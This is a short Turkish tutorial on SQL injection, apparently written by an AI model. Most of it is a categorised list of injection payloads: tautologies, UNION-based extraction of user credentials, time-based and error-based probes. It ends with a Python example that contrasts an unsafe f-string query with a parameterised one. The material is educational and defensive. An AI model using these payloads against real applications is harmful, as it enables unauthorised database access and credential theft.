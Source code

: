 SQL Enjeksiyon saldırılarına karşı savunma stratejilerini ve örnek payload'ları detaylı olarak açıklayacağım.



```sql
-- 1. Temel SQL Enjeksiyon Payload'ları
-- 1.1 Basit Denemeler
'
''
`
``
,
"
""
\
/
;
-- Noktalı virgül ile komut zincirleme
;SELECT @@version
;SELECT * FROM users

-- 1.2 Mantıksal Operatörler
' OR '1'='1
' OR 1=1--
' OR 'x'='x
" OR "a"="a
') OR ('1'='1
' OR '1'='1' --
' OR 'unusual' LIKE 'unusual
' AND id IS NOT NULL; --

-- 1.3 UNION Tabanlı Saldırılar
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION ALL SELECT username, password FROM users--
' UNION SELECT @@version,NULL--
' UNION SELECT table_name,NULL FROM information_schema.tables--

-- 1.4 Zaman Bazlı Saldırılar
'; WAITFOR DELAY '0:0:10'--
'; IF (SELECT COUNT(*) FROM users) > 100 WAITFOR DELAY '0:0:5'--
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--
'; SELECT IF(SUBSTRING(user(),1,1)='r',SLEEP(5),0)--

-- 1.5 Hata Tabanlı Saldırılar
' AND 1=CONVERT(int,(SELECT @@version))--
' AND 1=CAST((SELECT user) as int)--
' AND 1=(SELECT TOP 1 table_name FROM information_schema.tables)--

-- 2. Savunma Kodları

-- 2.1 Python - Parametreli Sorgular
import sqlite3

def güvenli_sorgu():
    conn = sqlite3.connect('veritabani.db')
    cursor = conn.cursor()
    
    # YANLIŞ KULLANIM - Güvensiz
    user_id = "1' OR '1'='1"
    sorgu = f"SELECT * FROM kullanicilar WHERE id = '{user_id}'"  # Güvensiz!
    
    # DOĞRU KULLANIM - Parametreli sorgu
    cursor.execute("SELECT * FROM kullanicilar WHERE id = ?", (user_id,))
```
